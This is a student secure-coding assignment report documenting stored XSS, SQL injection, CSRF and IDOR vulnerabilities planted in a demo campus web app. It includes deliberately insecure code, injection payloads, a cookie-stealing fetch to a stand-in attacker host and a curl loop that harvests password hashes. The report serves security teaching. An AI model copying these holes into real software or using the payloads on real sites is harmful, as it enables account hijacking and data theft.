# CampusConnect — Vulnerable Application

**SIT218/SIT738 Secure Coding — Task 7.3HD, Task 1**

This document tracks the vulnerabilities demonstrated in `vulnerable-webapp`, one section per vulnerability, following the pattern: **feature built → normal functionality confirmed → vulnerability introduced → attack demonstrated → source code located.**

> **Evidence folder convention:** All screenshots referenced below live in ``. Filenames follow the pattern `T1-{vuln#}{letter}_{description}.png`. Update the image paths below if your repo structure differs.

---

## Table of Contents

- [6.3 — Stored XSS (Club Noticeboard)](#63--stored-xss-club-noticeboard)
- [6.4 — SQL Injection (Member Search)](#64--sql-injection-member-search)
- [6.5 — CSRF (Send Study Points)](#65--csrf-send-study-points)

---

## 6.3 — Stored XSS (Club Noticeboard)

### Objective
Demonstrate a stored cross-site scripting vulnerability in the Club Noticeboard feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/resources/templates/noticeboard/index.html` (line ~40, `th:utext`) |
| Entry point | `src/main/java/com/campusconnect/controller/NoticeboardController.java`, `createPost()` |

### Vulnerable code

```html
<p th:utext="${post.content}">Content</p>
```

```java
@PostMapping
public String createPost(@RequestParam String authorUsername,
                          @RequestParam String content) {
    Post post = new Post(authorUsername, content);
    postRepository.save(post);
    return "redirect:/noticeboard";
}
```

### Why vulnerable
- `content` is taken directly from the HTTP request with **no server-side validation or sanitization**.
- It is saved to the database unmodified.
- When rendered, `th:utext` ("unescaped text") writes the string as raw HTML instead of Thymeleaf's safe default (`th:text`, which HTML-encodes `<`, `>`, `&`, etc.).
- Any HTML/JavaScript submitted by a user is therefore interpreted and executed by the browser of every subsequent visitor.

### Attack input
| Field | Value |
|---|---|
| Author | `attacker` |
| Message | `<script>alert("You have been hacked!");</script>` |

### Attack procedure
1. Submit the payload via the noticeboard form (`POST /noticeboard`).
2. Payload is stored in the `posts` table, byte-for-byte, unmodified.
3. Any user — including the attacker, and including future visitors — who loads `GET /noticeboard` triggers execution.

### Expected vs. actual result
| | |
|---|---|
| **Expected (secure) behaviour** | Message displays as literal text, script tag not executed |
| **Actual (vulnerable) result** | Browser executes the injected `<script>` tag; alert box fires |

### Security impact
Because this is **stored** (persistent), not reflected, the payload executes for *every* visitor to the noticeboard — not just the person who submitted it. In a real attack, `alert()` would be replaced with something like:
```html
<script>fetch('https://attacker.example/steal?c=' + document.cookie)</script>
```
silently exfiltrating session cookies from any member (including admins) who views the page, enabling session hijacking.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-00` — Noticeboard UI baseline, empty state |
|  | `T1-01a` — Empty noticeboard before any posts |
|  | `T1-01b` — Legitimate `bob_smith` post displaying correctly (proves feature works before attack) |
|  | `T1-01c` — Malicious `<script>` payload entered into the form, pre-submit |
|  | `T1-01d` — JavaScript alert box firing, confirming execution |
|  | `T1-01e` — Raw HTTP response source showing the unescaped `<script>` tag |
|  | `T1-01f` — Source: `index.html`, `th:utext` line highlighted |
|  | `T1-01g` — Source: `NoticeboardController.java`, `createPost()` showing no input validation |

### Planned prevention (Task 3)
Replace `th:utext` with `th:text` (Thymeleaf's default HTML-escaping behaviour), combined with server-side input validation via Spring's Hibernate Validator.

---

## 6.4 — SQL Injection (Member Search)

### Objective
Demonstrate a SQL Injection vulnerability in the "Find a Member" search feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/java/com/campusconnect/service/MemberSearchService.java`, `vulnerableSearchByUsername()` |
| Entry point | `src/main/java/com/campusconnect/controller/MemberController.java`, `search()` |
| Safe method kept for comparison | `src/main/java/com/campusconnect/repository/MemberRepository.java`, `findByUsername()` (parameterized, Task 3 will restore this) |

### Vulnerable code

```java
@SuppressWarnings("unchecked")
public List<Member> vulnerableSearchByUsername(String username) {
    String sql = "SELECT * FROM members WHERE username = '" + username + "'";
    Query query = entityManager.createNativeQuery(sql, Member.class);
    return query.getResultList();
}
```

```java
@GetMapping("/results")
public String search(@RequestParam(required = false) String username, Model model) {
    if (username != null && !username.isBlank()) {
        List<Member> results = memberSearchService.vulnerableSearchByUsername(username);
        model.addAttribute("results", results);
        model.addAttribute("searchedUsername", username);
    }
    return "members/search";
}
```

### Why vulnerable
User-supplied `username` is concatenated directly into a native SQL string with **no parameterization, escaping, or validation**. Any SQL metacharacters in the input (quotes, boolean operators, comment syntax) are interpreted as part of the query itself rather than as literal search text.

> **Note:** Spring Data JPA's `@Query` annotation is resistant to injection by design — it still parameterizes under the hood even with a raw SQL string. A genuinely exploitable query requires dropping to a raw `EntityManager` native query built via string concatenation, as shown above. This is realistic: it mirrors a common real-world mistake of dropping to raw SQL "for flexibility."

### Attack inputs

| Payload | Purpose |
|---|---|
| `' OR '1'='1` | Full boolean bypass — dumps every row |
| `admin'#` | Targeted extraction — returns exactly the `admin` record |

### Attack breakdown — boolean bypass

Query template:
```sql
SELECT * FROM members WHERE username = '<user input>'
```
With input `' OR '1'='1`:
```sql
SELECT * FROM members WHERE username = '' OR '1'='1'
```
- The attacker's `'` closes the string literal early.
- `OR '1'='1'` is a condition that is always `TRUE`.
- `TRUE OR anything` evaluates to `TRUE` for every row → the `WHERE` clause matches the entire table.

### Attack breakdown — targeted extraction

With input `admin'#`:
```sql
SELECT * FROM members WHERE username = 'admin'#'
```
`#` is MariaDB's single-line comment marker — everything after it (including the trailing quote the application appended) is ignored. This returns exactly the `admin` row, as if the attacker had queried for it directly.

> **Note on comment syntax:** MariaDB's `--` comment style requires a trailing space to register; without it, a syntax error occurs (`... near '''`). `#` requires no trailing whitespace, making it more reliable when passed through HTML forms/URL encoding, where trailing spaces are easily dropped. This was confirmed during testing — see the failed-attempt evidence below.

### Expected vs. actual result
| | |
|---|---|
| **Expected (normal input)** | Zero or one matching member returned |
| **Actual (`' OR '1'='1`)** | All 5 seeded members returned, including `admin` |
| **Actual (`admin'#`)** | Exactly one result — the `admin` record, extracted in isolation |

### Security impact
An attacker can enumerate the entire user base — including the `admin` account — with **no authentication required**. The same technique could be extended (e.g. via `UNION SELECT`) to extract data from other tables entirely, or, depending on database permissions, to modify or delete data.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-02a` — Empty search form |
|  | `T1-02b` — Valid search (`alice_wong`), one clean result |
|  | `T1-02c` — Search for non-existent username, "not found" message |
|  | `T1-02d` — Normal search still functions correctly after vulnerable code introduced |
|  | `T1-02e` — `' OR '1'='1` entered into the search box |
|  | `T1-02f` — All 5 members returned, warning banner visible |
|  | `T1-02g` — `admin'#` returning exactly the admin record |
|  | `T1-02h` — Eclipse console showing the raw injected SQL executed by MariaDB |
|  | `T1-02i` — Source: `MemberSearchService.java`, concatenation line highlighted |
|  | `T1-02j` — Source: `MemberController.java`, `search()` calling the vulnerable service |

### Planned prevention (Task 3)
Replace the native concatenated query with Hibernate ORM's parameterized derived query method (`findByUsername`, already present in `MemberRepository` for direct before/after comparison), or an HQL query using named parameters.

---

## 6.5 — CSRF (Send Study Points)

### Objective
Demonstrate a Cross-Site Request Forgery vulnerability in the "Send Study Points" feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/java/com/campusconnect/controller/StudyPointsController.java`, `send()` method (`POST /study-points/send`) |
| Attacker artifact | `csrf-attack/attacker.html` (hosted separately, simulating a malicious third-party site) |

### Vulnerable code

```java
// VULNERABLE: no CSRF token, no origin/referrer check.
// Relies purely on the session cookie automatically sent by the browser.
@PostMapping("/send")
public String send(@RequestParam String toUsername,
                    @RequestParam int amount,
                    HttpSession session) {
    String currentUser = (String) session.getAttribute("currentUser");
    if (currentUser == null) {
        return "redirect:/login";
    }
    studyPointService.sendPoints(currentUser, toUsername, amount);
    return "redirect:/study-points";
}
```

### Why vulnerable
The endpoint authorizes a state-changing action (a point transfer) based purely on the presence of a valid session cookie. There is no CSRF token binding the request to a legitimate form render, and no verification of the `Origin`/`Referer` header. Any page the victim's browser visits — while their CampusConnect session remains active — can silently trigger this same request.

### Attack scenario
1. Victim logs into CampusConnect normally (session cookie established)
2. Without logging out, victim visits an attacker-controlled page
3. That page contains a hidden, auto-submitting form targeting `/study-points/send`
4. Browser automatically attaches the victim's session cookie to the forged request
5. CampusConnect cannot distinguish this from a legitimate request

### Expected vs. actual result
| | |
|---|---|
| **Expected (secure) behaviour** | Request rejected — no valid CSRF token / origin mismatch |
| **Actual (vulnerable) result** | Victim's balance dropped from 40 to -460 points; an unauthorized `carla_nguyen → bob_smith: 500 points` transaction appeared in the log, despite Carla never clicking "Send Points" on the real form — she only clicked a "Claim Your Prize!" button on an unrelated page at `localhost:9000`. Confirmed via browser DevTools: the forged `POST /vulnerable-webapp/study-points/send` request, originating from the attacker page, returned `302` and was processed identically to a legitimate request. |

### Security impact
An attacker can transfer study points out of any logged-in victim's account without their knowledge or consent, simply by getting them to visit a page (or click something innocuous-looking on it) while their CampusConnect session is active — no phishing of credentials required, since the victim never interacts with CampusConnect directly during the attack.

> **Secondary observation (not the focus of this vulnerability, worth a brief mention):** the app also has no validation preventing a transfer from driving a sender's balance negative — Carla's balance reached -460 with no rejection. A minor input-validation gap alongside the main CSRF issue.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-03a` — "Act as" login dropdown, no password required |
|  | `T1-03b` — Study points page after logging in as Carla (40 points, no transactions) |
|  | `T1-03c` — Legitimate transfer of 10 points to Alice, balance and transaction updating correctly |
|  | `T1-03d` — Disguised "Free Giveaway" attacker page at `localhost:9000`, hosted on a different origin |
|  | `T1-03e` — Carla's balance immediately before visiting the attacker page |
|  | `T1-03f` — Carla's balance after clicking the disguised button — unauthorized 500-point transfer to `bob_smith`, balance now -460 |
|  | `T1-03g` — Browser DevTools Network tab showing the forged cross-origin `POST /study-points/send` succeeding with a `302` response |
|  | `T1-03h` — Source: `StudyPointsController.java`, `/send` endpoint with no CSRF token or origin check |
|  | `T1-03i` — Source: `attacker.html`, the hidden auto-fillable form and disguised trigger button |

### Planned prevention (Task 3)
Per the brief: CSRF token-based protection combined with the `HttpSession` ID (`JSESSIONID`), plus Referrer header validation — explicitly **not** Spring Security's built-in CSRF protection, which is reserved for Task 4.

---
## 4 — Data Aggregation / Broken Access Control (Member Profile)

### Objective
Demonstrate an Insecure Direct Object Reference (IDOR) combined with excessive data exposure in the Member Profile feature.

### Location
| | |
|---|---|
| Vulnerable code | `src/main/resources/templates/profile/view.html` (lines ~27–37, unconditional field rendering) |
| Entry point | `src/main/java/com/campusconnect/controller/ProfileController.java`, `viewProfile()` |

### Vulnerable code

```java
@GetMapping("/profile")
public String viewProfile(@RequestParam Long id, Model model) {
    Member member = memberRepository.findById(id).orElse(null);
    model.addAttribute("member", member);
    model.addAttribute("requestedId", id);
    return "profile/view";
}
```

```html
<!-- VULNERABLE: exposes every field on the entity, including
     internal/sensitive data no "public profile" view should show -->
<div th:if="${member != null}" class="post">
    <p><strong>ID:</strong> <span th:text="${member.id}"></span></p>
    <p><strong>Username:</strong> <span th:text="${member.username}"></span></p>
    <p><strong>Full name:</strong> <span th:text="${member.fullName}"></span></p>
    <p><strong>Email:</strong> <span th:text="${member.email}"></span></p>
    <p><strong>Phone:</strong> <span th:text="${member.phone} ?: 'Not provided'"></span></p>
    <p><strong>Role:</strong> <span th:text="${member.role}"></span></p>
    <p><strong>Study Points:</strong> <span th:text="${member.studyPoints}"></span></p>
    <p><strong>Password Hash:</strong> <span th:text="${member.passwordHash}"></span></p>
</div>
```

### Why vulnerable
- `viewProfile()` takes an arbitrary `id` request parameter and passes it straight to `memberRepository.findById(id)` with **no authentication check and no ownership/authorization check** — there is no verification that a session exists, let alone that the requester is entitled to view that particular record.
- The template renders **every field** on the `Member` entity unconditionally, including internal/sensitive data — role, exact study point balance, and even the **password hash** — that a "public profile" view has no legitimate reason to expose to anyone, owner or not.
- Together this is a textbook **IDOR** (OWASP A01:2021 — Broken Access Control) layered with **excessive data exposure**: even a properly authenticated, ordinary member could walk the `id` parameter and pull every other member's private data with no injection or exploit technique required at all — just incrementing a number in the URL.

### Attack input
| Parameter | Values used |
|---|---|
| `id` | `1`, `2`, `3`, `4`, `5` (all seeded members, no session/login) |

### Attack procedure
1. Visit `GET /vulnerable-webapp/profile?id=1` with **no login** — full record for `alice_wong` returned, including password hash, role, and study points.
2. Manually increment `id` through `2`–`5` — each request returns a different member's complete record, unauthenticated.
3. Automate the walk with a bash loop piping each response through `curl` and `grep`, extracting the `Password Hash` field for all five members in a single unauthenticated pass — demonstrating trivial bulk harvesting rather than a one-off manual look.

```bash
for id in 1 2 3 4 5; do
  echo "--- Member ID $id ---"
  curl -s "http://localhost:8080/vulnerable-webapp/profile?id=$id" | grep -A1 "Password Hash"
done
```

### Expected vs. actual result
| | |
|---|---|
| **Expected (secure) behaviour** | Profile only accessible to the authenticated owner (or an ADMIN), with sensitive fields (password hash, role, exact points) hidden from the rendered view entirely |
| **Actual (vulnerable) result** | Any anonymous visitor can view any member's full record — including password hash, role, and exact study point balance — for all 5 seeded IDs, with zero authentication |

### Security impact
An attacker can enumerate the entire member table from an unauthenticated position, harvesting password hashes (enabling offline cracking or credential-stuffing attempts), roles (identifying which accounts are ADMIN and therefore high-value targets), and exact point balances (a business-logic-sensitive value). Combined with simple sequential-ID enumeration, this amounts to a full, unauthenticated data dump of the member table — functionally similar in outcome to the SQL Injection vulnerability in Feature 2, but requiring no injection technique at all, only incrementing a URL parameter.

### Evidence

| Screenshot | Description |
|---|---|
|  | `T1-04a` — Baseline profile view confirming the feature renders correctly |
|  | `T1-04b` — `id=1`, unauthenticated, full record for `alice_wong` (ADMIN) including password hash |
|  | `T1-04c` — `id=2`, `bob_smith` (CLUB_LEADER) record returned by simply changing the URL |
|  | `T1-04d` — `id=3`, `carla_nguyen` record, including her (negative) study point balance |
